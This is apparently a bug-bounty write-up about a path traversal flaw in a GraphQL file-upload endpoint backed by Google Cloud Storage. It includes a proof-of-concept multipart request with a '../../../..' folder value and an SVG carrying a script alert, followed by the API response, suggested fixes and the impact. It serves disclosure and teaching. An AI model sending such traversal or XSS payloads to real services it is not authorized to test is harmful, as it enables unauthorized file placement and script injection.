 ```yaml
---
title: Path Traversal in File Upload via GraphQL API
description: A file upload endpoint accepted folder traversal sequences, enabling unauthorized file placement and abuse of signed Google Cloud Storage URLs.
summary: A file upload endpoint accepted folder traversal sequences, enabling unauthorized file placement and abuse of signed Google Cloud Storage URLs.
date: 2025-03-11
tags:
  - path-traversal
  - file-upload
  - graphql
  - gcp
  - bug-bounty
read_time: 3 minute read
---
```


# Path Traversal in File Upload via GraphQL API


## Summary

During a routine test of a GraphQL file upload API, I discovered a **path traversal vulnerability** that allowed attackers to escape intended directories and store files in arbitrary locations on Google Cloud Storage. This could lead to **malicious file hosting**, **stored XSS**, or **unintentional overwriting of sensitive files**.

---

## Vulnerability Details

- **Endpoint**: `POST /graphql`
- **Vulnerable Parameter**: `folder` inside the GraphQL mutation

By setting the `folder` variable to a traversal string like `../../../..`, I was able to manipulate the final storage path of the uploaded file.

---

## Proof of Concept

Here’s a condensed version of the PoC used in the request:

```http
POST /graphql HTTP/2
Host: rise-api.target.com
Authorization: Bearer <token>
Content-Type: multipart/form-data; boundary=----boundary

------boundary
Content-Disposition: form-data; name="operations"

{
  "operationName": "singleUpload",
  "variables": {
    "folder": "../../../..",
    "file": "newfile"
  },
  "query": "mutation singleUpload($file: Upload!, $folder: String!) { singleUpload(file: $file, folder: $folder) { filename uri signedUrl } }"
}
------boundary
Content-Disposition: form-data; name="map"

{ "1": ["variables.file"] }
------boundary
Content-Disposition: form-data; name="1"; filename="test.svg"
Content-Type: image/svg+xml

<?xml version="1.0" standalone="no"?>
<svg xmlns="http://www.w3.org/2000/svg">
  <script>alert("XSS by mora");</script>
</svg>
------boundary--

```

### API Response

```json
{
  "data": {
    "singleUpload": {
      "filename": "test.svg",
      "uri": "organization_abc/../../../others/unique-id-test.svg",
      "signedUrl": "https://rise-files.target.com/others/unique-id-test.svg?...",
    }
  }
}
```

This shows the file being placed in a directory (`/others/`) outside the intended `organization_abc` context.

---

## Recommended Fixes

1. **Sanitize folder input**: Reject traversal sequences like `../` in any upload path.
2. **Whitelist upload directories**: Only allow uploads to pre-approved subdirectories.
3. **Limit signed URL lifetimes**: Expire signed URLs quickly to reduce misuse.
4. **Validate upload metadata server-side**: Don't rely on client-provided `folder` paths blindly.
5. **Restrict public access to upload endpoints**: Tie storage and access to strong authZ/authN checks.

---

## Impact

* **Persistent Malicious File Hosting**: Attackers could upload malware or phishing content to a trusted domain.
* **Stored XSS Risk**: Malicious file names or SVG files might execute if reflected or embedded.
* **Overwrite Risk**: Without validation, uploads could overwrite essential `.js`, `.json`, or user-generated content.
* **Information Exposure**: If GCS directory listings are ever enabled, sensitive files may be accessible.

---

## Resolution

The issue was marked **Informative** due to limited security impact in this context. However, it highlights a common misconfiguration when using file upload APIs, especially with cloud storage services like GCS or S3.

---

## 📚 References

* [OWASP Path Traversal](https://owasp.org/www-community/attacks/Path_Traversal)
* [GCP Signed URLs Best Practices](https://cloud.google.com/storage/docs/access-control/signed-urls)

---

Thanks for reading!

---

